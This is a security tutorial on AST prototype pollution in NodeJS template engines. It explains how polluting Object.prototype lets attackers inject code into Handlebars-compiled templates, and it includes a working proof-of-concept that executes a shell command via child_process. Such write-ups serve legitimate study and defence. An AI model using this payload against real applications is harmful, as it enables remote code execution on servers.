 ### AST Prototype Pollution in NodeJS

NodeJS extensively utilizes Abstract Syntax Trees (AST) in JavaScript for functionalities like template engines and TypeScript. This section explores the vulnerabilities related to prototype pollution in template engines, specifically Handlebars and Pug.

#### Handlebars Vulnerability Analysis

The Handlebars template engine is susceptible to a prototype pollution attack. This vulnerability arises from specific functions within the `javascript-compiler.js` file. The `appendContent` function, for instance, concatenates `pendingContent` if it's present, while the `pushSource` function resets `pendingContent` to `undefined` after adding the source.

**Exploitation Process**

The exploitation leverages the AST (Abstract Syntax Tree) produced by Handlebars, following these steps:

1. **Manipulation of the Parser**: Initially, the parser, via the `NumberLiteral` node, enforces that values are numeric. Prototype pollution can circumvent this, enabling the insertion of non-numeric strings.
2. **Handling by the Compiler**: The compiler can process an AST Object or a string template. If `input.type` equals `Program`, the input is treated as pre-parsed, which can be exploited.
3. **Injection of Code**: Through manipulation of `Object.prototype`, one can inject arbitrary code into the template function, which may lead to remote code execution.

An example demonstrating the exploitation of the Handlebars vulnerability:

```javascript
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);

console.log(eval('(' + template + ')')['main'].toString());
```

This code showcases how an attacker could inject arbitrary code into a Handlebars template.

**External Reference**: An issue related to prototype pollution was found in the 'flat' library, as detailed here: [Issue on GitHub](https://github.com/hughsk/flat/issues/105).

